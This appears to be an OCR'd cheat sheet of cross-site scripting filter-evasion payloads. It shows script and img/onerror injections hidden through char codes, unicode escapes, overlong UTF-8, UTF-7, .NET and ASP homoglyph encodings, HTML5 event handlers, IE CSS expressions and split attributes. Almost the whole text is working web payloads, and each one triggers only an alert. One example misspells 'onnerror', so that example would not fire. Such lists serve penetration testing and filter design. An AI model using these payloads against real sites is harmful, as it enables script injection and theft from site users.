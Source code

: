 JavaScript (Decimal char codes)
<script>document.write('<img src=1 onerror=alert(1)>');</script>
<script>document.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,49,32,111,110,101,114,114,111,114,61,97,108,101,114,116,40,48,41,62));</script>

JavaScript (Unicode function and variable names)
<script>alert(123)</script>
<script>\u0061\u006C\u0065\u0072\u0074(123)</script>

Overlong UTF-8 (SiteMinder is awesome!)
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2

<img src="1" onnerror="alert(1)">
%E0%80%BCimg%20src%3D%E0%80%A21%E0%80%A2%20onerror%3D%E0%80%A2alert(1)%E0%80%A2%E0%80%BE

UTF-7 (Missing charset?)
<img src="1" onerror="alert(1)" />
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-

Unicode .NET Ugliness
<script>alert(1)</script>
%uff1cscript%uff1ealert(1)%uff1c/script%uff1e

Classic ASP performs some unicode homoglyphic translations... don't ask why...
<img src="1" onerror="alert('1')">
%u3008img%20src%3D%221%22%20onerror%3D%22alert(%uFF071%uFF07)%22%u232A

Useless and/or Useful features.

HTML 5 (Not comphrensive)
<video src="http://www.w3schools.com/html5/movie.ogg" onloadedmetadata="alert(1)" />
<video src="http://www.w3schools.com/html5/movie.ogg" onloadstart="alert(1)" />

Usuage of non-existent elements (IE)
<blah style="blah:expression(alert(1))" />

CSS Comments (IE)
<div style="z:exp/*anything*/res/*here*/sion(alert(1))" />

Alternate ways of executing JavaScript functions
<script>window['alert'](0)</script>
<script>parent['alert'](1)</script>
<script>self['alert'](2)</script>
<script>top['alert'](3)</script>

Split up JavaScript into HTML attributes
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>

HTML is parsed before JavaScript
<script>
var junk = '</script><script>alert(1)</script>';
</script>
